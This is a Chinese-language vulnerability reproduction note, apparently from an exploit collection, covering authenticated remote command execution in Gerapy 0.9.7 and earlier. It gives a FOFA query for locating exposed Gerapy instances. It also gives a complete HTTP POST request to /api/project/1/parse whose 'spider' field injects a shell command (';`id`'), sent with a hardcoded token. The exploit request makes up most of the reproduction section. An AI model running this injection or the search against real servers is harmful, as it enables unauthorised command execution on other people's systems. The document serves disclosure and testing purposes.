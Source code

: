 # Gerapy parse 后台远程命令执行漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的方法存在任意命令执行，攻击者登录后台后发送特定的请求包即可利用漏洞

## 漏洞影响

```
Gerapy <= 0.9.7
```

## FOFA

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145144051](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241451094.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241451220.png)

构造请求包测试命令执行

```
POST /api/project/1/parse HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 18

{"spider":";`id`"}
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241452592.png)